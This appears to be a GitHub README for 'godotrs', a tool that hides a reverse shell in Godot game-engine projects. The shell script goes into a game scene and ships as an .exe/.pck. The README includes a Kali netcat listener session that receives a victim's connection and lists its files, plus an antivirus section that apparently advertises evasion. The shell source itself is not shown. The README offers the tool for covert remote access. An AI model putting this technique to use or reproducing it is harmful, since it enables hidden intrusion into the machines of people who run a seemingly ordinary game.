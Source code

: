 # godotrs

portable godot (GDScript) based reverse shell

https://godotengine.org/download/

https://docs.godotengine.org/en/3.1/getting_started/scripting/index.html

**Supports**
- GDScript (godot)
- VBScript
- C# (+Mono)

**Usage**

Create project, add script to main scene or trigger scene. 

deploy & run:
- godotrs.exe
- godotrs.pck

```
root@kali:~# nc -lvp 9999
listening on [any] 9999 ...
192.168.1.71: inverse host lookup failed: Unknown host
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.71] 58913
ls -lha
>[total 107664
drwxr-xr-x  14 WOPR  staff   448B Dec 17 09:15 .
drwxr-xr-x@  5 WOPR  staff   160B Dec 17 06:59 ..
drwxr-xr-x   4 WOPR  staff   128B Dec 17 06:59 .import
-rw-r--r--   1 WOPR  staff   500B Dec 17 08:47 Popup.gd
-rw-r--r--   1 WOPR  staff   191B Dec 17 09:15 Popup.tscn
-rw-r--r--   1 WOPR  staff   163B Dec 17 09:15 default_env.tres
-rw-r--r--   1 WOPR  staff   774B Dec 17 09:12 export_presets.cfg
-rw-r--r--   1 WOPR  staff   9.6M Dec 17 09:06 godotrs.appx
-rw-r--r--@  1 WOPR  staff    15M Dec 17 09:02 godotrs.dmg
-rw-r--r--   1 WOPR  staff    27M Dec 17 09:12 godotrs.exe
-rw-r--r--   1 WOPR  staff    18K Dec 17 09:12 godotrs.pck
-rw-r--r--@  1 WOPR  staff   7.4K Dec 17 06:59 icon.png
-rw-r--r--   1 WOPR  staff   640B Dec 17 06:59 icon.png.import
-rw-r--r--@  1 WOPR  staff   736B Dec 17 09:15 project.godot
```

**CLI**

It's possible to execute GDScripts directly from a Godot installation if it's available on the system. 

https://docs.godotengine.org/en/3.1/getting_started/editor/command_line_tutorial.html

```
user@host:~/newgame$ godot -s sayhello.gd
```

**AV**

<img width="1401" alt="Screenshot 2019-12-17 at 09 13 29" src="https://user-images.githubusercontent.com/56988989/70982133-5d4dce80-20ae-11ea-84ca-e7b76b4847c7.png">

**Limitations**
- gfx support required
